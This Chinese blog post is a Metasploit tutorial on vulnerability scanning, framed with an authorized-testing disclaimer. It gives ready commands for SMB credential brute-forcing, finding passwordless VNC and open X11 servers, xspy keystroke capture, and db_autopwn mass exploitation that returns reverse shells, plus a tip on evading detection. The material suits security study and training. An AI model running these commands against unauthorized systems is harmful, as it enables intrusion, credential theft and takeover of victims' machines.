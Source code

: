 ```yaml
---
layout: post
title: Metasploit渗透测试指南2-漏洞扫描
subtitle: Author：a-fickle
date: 2023-07-10 12:00:00 +0800
tag: [Metasploit,渗透测试]
cover-img: /assets/img/2023-07-10-Metasploit渗透测试指南2-漏洞扫描/cover.png
---
```


**声明：**            
* 本文介绍的渗透测试技术基本都是围绕Metasploit的使用。                    
* 本文所介绍的渗透测试技术均以建设安全、健康的网络环境为目的，本着探讨网络安全技术的初衷和目的，不得用于任何恶意或非法的用途，一切渗透测试行为均需要得到测试目标的书面授权并且在合法的情况下才能进行。          
* 本文作者不会宽恕或鼓励滥用本文讨论的渗透测试技术进行非法活动的行为，也不会对其承担任何责任。                             
          
           
&nbsp;     
## 漏洞扫描：          
### 1. 基础漏洞扫描：        
#### 1.1 netcat：               
* 作用：特定端口的漏洞扫描。       
* 命令：nc -vz <目标主机> <端口>   （"-v"选项用于启用详细输出，"-z"选项用于扫描端口而不进行数据传输）                                             
* 注意：这只是一个基本的端口扫描，它可以帮助确定目标主机上是否存在特定端口的漏洞。但是，进行全面的漏洞扫描通常需要更专业的漏洞扫描器。            
         
### 2. 常用漏洞扫描器：            
#### 2.1 需要注意：               
* 所有的扫描器都遵循宁可误报，不可漏报的原则。       
* 使用漏洞扫描器通常会在网络上产生大量流量，因此如果不想被别人发现渗透测试踪迹，就要用手工的方式，虽然手工方式要更费时费力。                  

#### 2.2 NeXpose：             
* 作用：输出.xml漏洞扫描报告。       

#### 2.3 Nessus：             
* 作用：输出.nessus漏洞扫描报告。       

#### 2.4 报告导入Metasploit：             
命令：             
msf > db_connect postgres:toor@127.0.0.1/msf3              
msf > db_import [扫描报告路径]              
msf > db_hosts -c address,svcs,vulns (检查报告数据是否正确导入)             
msf > db_vulns (显示详细的漏洞列表)             
msf > db_destroy postgres:toor@127.0.0.1/msf3   （删除现有的数据库）             

### 3. 专用漏洞扫描器：            
#### 3.1 SMB验证登录扫描器：             
* 作用：对大量主机的用户名和口令进行猜解。            
* 注意：这种扫描的动静很大，容易被察觉，而且每一次登陆尝试都会在被扫描的Windows主机系统日志中留下痕迹。              
* 命令：           
msf > use auxiliary/scanner/smb/smb_login            
msf auxiliary(smb_login) > show options       
msf auxiliary(smb_login) > set RHOSTS 192.168.1.150-155            
msf auxiliary(smb_login) > set SMBUser [用户名]                 
msf auxiliary(smb_login) > set SMBPass [口令]                  
msf auxiliary(smb_login) > run              
#### 3.2 扫描开放的VNC空口令：             
* 作用：对一段IP地址进行扫描，在其中搜索未设置口令的VNC服务器。            
* 注意：VNC类似于远程桌面连接，如果管理员使用后忘记删除，就可能留下没有补丁的VNC服务，但通常情况下不容易扫描到。              
* 命令：           
msf > use auxiliary/scanner/vnc/vnc_none_auth            
msf auxiliary(vnc_none_auth) > show options                 
msf auxiliary(vnc_none_auth) > set RHOSTS 192.168.1.155            
msf auxiliary(vnc_none_auth) > run              
* 如果找到了一台没有口令的VNC服务器，可以使用vncviewer连接到目标主机上未设置口令的VNC服务器。                 
#### 3.3 扫描开放的X11服务器：             
* 作用：与VNC类似，X11服务器允许用户无需身份认证即可连接，但是新的操作系统已经停用。            
* 命令：           
msf > use auxiliary/scanner/x11/open_x11            
msf auxiliary(open_x11) > show options                 
msf auxiliary(open_x11) > set RHOSTS 192.168.1.0/24            
msf auxiliary(open_x11) > set THREADS 50              
msf auxiliary(open_x11) > run              
* 可以使用xspy对目标主机进行击键记录。                 

### 3. 利用扫描结果自动化攻击：            
* 工具：Autopwn             
* 命令：            
msf > db_connect postgres:toor@127.0.0.1/msf3            
msf > db_import /root/nessus.nbe           
msf > db_autopwn -e -t -r -x -p               
* 参数：             
e：对所有目标发起攻击；          
t：显示所有匹配的模块；               
r：使用反弹shell的攻击载荷；             
x：根据漏洞选择攻击模块；              
p：根据开放端口选择攻击模块。                
* 作用：如果攻击成功，会返回一个被攻击计算机的控制shell。              
* 注意：当自动攻击启动后，目标系统可能会变得不稳定或崩溃。因此，可以仅选择“最佳”级别的攻击点进行攻击。可以输入db_autopwn h查看更多使用方法。                   


              
           
&nbsp;             
**参考文献：**《Metasploit-The Penetration Tester's Guide》                
               
              


















